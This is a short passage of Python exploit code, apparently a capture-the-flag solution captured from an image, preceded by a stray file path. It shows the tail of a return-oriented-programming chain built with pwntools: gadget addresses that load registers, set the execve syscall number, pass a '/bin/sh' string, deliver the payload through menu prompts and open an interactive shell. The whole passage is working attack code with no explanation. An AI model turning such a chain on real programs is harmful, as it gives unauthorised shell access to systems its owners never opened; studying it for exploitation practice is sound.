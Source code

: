 ```python
payload += p64(0x0)         # rbp
payload += p64(0x407668)    # pop rsi; ret
payload += p64(0x0)         # rsi
payload += p64(0x4044cf)    # pop rdx; ret
payload += p64(0x0)         # rdx
payload += p64(0x41fcba)    # pop rax; ret
payload += p64(0x3b)        # rax (execve syscall number)
payload += p64(0x403c73)    # syscall
payload += "////////////////////////bin/sh\x00"
p.sendlineafter(': ', payload)

p.sendlineafter('> ', '4')  # exit Enter
p.sendlineafter('> ', '5')  # exit main -> trigger rop

p.interactive()
```
